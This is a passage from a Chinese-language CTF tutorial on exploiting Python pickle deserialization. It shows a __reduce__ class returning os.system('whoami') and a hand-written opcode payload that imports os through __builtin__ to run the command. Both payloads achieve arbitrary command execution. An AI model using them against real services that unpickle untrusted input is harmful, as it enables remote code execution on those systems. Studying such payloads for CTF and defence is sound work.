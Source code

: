  ![obj-method](obj-method.png "o 用于调用方法")

  

以上为 V0 版本 pickle 中常用的 opcode，后续版本增加的 opcode 大部分均为对旧版本 opcode 功能的补充，少有大规模的改动，部分新的 opcode 在之后的例题中会介绍到



## 0x03 利用方法

根据我目前遇到过的情况 (一般在 CTF 题中)，pickle 反序列化主要有以下几种常见的利用方法

### 执行恶意命令

执行恶意命令是 pickle 反序列化最简单也是最危险的利用方法，可以直接通过 `__reduce__` 方法进行利用

```python
import os
import pickle

class Evil():
    def __reduce__(self):
        return (os.system, ('whoami',))

print(pickle.dumps(Evil()))
```

将输出的序列化数据进行反序列化即可执行 `os.system('whoami')`，此种方法操作简单但局限性较大，需要反序列化执行环境引入所需的库，且只能执行一次函数调用，因此常使用手写 opcode 的方法进行利用，这里推荐一个库 [pker](https://github.com/EddieIvan01/pker)，可以自动生成 opcode，还是挺方便的

我就以反序列化执行环境未导入 `os` 模块举例，在这种情况下执行 `os.system('whoami')`

```
c__builtin__
getattr
(c__builtin__
__import__
(S'os'
tRS'system'
tR(S'whoami'
tR.
```

其中 1~2 行获取 `__builtin__.getattr` 函数， 3~6 行通过 `__builtin__.__import__` 函数导入 `os` 模块，第 6~7 行获取 `os.system` 函数，7~8 行通过调用 `os.system` 函数实现任意命令执行，成功在未导入 `os` 模块的情况下执行 `os.system` 函数

![os](os.png "手写 opcode 在未导入 os 模块的情况下执行 os.system 函数")
